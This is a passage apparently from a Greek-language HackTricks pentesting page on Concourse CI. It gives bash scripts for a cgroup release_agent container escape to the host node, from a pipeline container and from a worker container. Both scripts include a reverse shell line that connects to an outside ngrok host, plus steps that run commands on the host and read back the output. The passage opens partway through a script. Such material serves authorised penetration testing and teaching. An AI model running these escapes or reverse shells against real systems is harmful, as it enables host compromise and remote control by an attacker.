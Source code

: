 ```bash

## The final part "overlays/bbedb419-c4b2-40c9-67db-41977298d4b3/rootfs" is kind of constant
# running `mount | grep "on / " | grep -Eo "workdir=([^,]+)"` you will see something like:
# workdir=/concourse-work-dir/overlays/work/ae7df0ca-0b38-4c45-73e2-a9388dcb2028
# the UID is the part we are looking for

# Then the host_path is:
#host_path="/mnt/<device>/hostpath-provisioner/default/concourse-work-dir-<concourse_prefix>-worker-<num>/overlays/<UID>/rootfs"

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent


#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Reads the output
cat /output
```
{% hint style="warning" %}
Όπως μπορεί να έχετε παρατηρήσει, αυτό είναι απλώς μια [**κανονική απελευθέρωση\_agent escape**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/concourse-security/broken-reference/README.md) απλά τροποποιώντας τη διαδρομή της εντολής στο node
{% endhint %}

#### Απελευθέρωση στο node από ένα Worker container

Μια κανονική απελευθέρωση\_agent escape με μια μικρή τροποποίηση είναι αρκετή για αυτό:
```bash
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab | head -n 1`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#====================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/0.tcp.ngrok.io/14966 0>&1" >> /cmd
chmod a+x /cmd
#====================================
# Get output
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#====================================

# Executes the attack by spawning a process that immediately ends inside the "x" child cgroup
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

```